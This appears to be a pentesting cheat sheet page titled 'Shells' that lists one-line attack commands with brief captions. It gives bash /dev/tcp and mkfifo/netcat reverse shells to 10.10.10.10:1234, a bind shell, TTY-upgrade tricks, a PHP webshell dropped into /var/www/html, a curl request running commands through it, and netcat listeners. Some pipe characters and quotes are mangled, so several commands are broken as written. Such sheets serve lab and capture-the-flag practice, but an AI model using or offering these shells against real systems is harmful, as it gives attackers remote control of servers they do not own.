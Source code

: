 ```yaml
---
title: "Shells"
permalink: /Shells/
layout: single
author-profile: true
---
```


 `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`  
 Send a reverse shell from the remote server 

 `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\/bin/sh -i 2>&1\nc 10.10.10.10 1234 >/tmp/f`  
 Another command to send a reverse shell from the remote server 

 `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\/bin/bash -i 2>&1\nc -lvp 1234 >/tmp/f`  
 Start a bind shell on the remote server

 `python -c 'import pty; pty.spawn("/bin/bash")'`  
 Upgrade shell TTY (1) 

 `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice  Upgrade shell TTY (2) 

 `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`  Create a webshell php file 

 `curl http://SERVER_IP:PORT/shell.php?cmd=id`  Execute a command on an uploaded webshell 

`python -c ‘import pty;pty.spawn(“/bin/bash”)’`


## netcat
 `nc -lvnp 1234`  Start a `nc` listener on a local port 
 `nc 10.10.10.1 1234`  Connect to a bind shell started on the remote server 
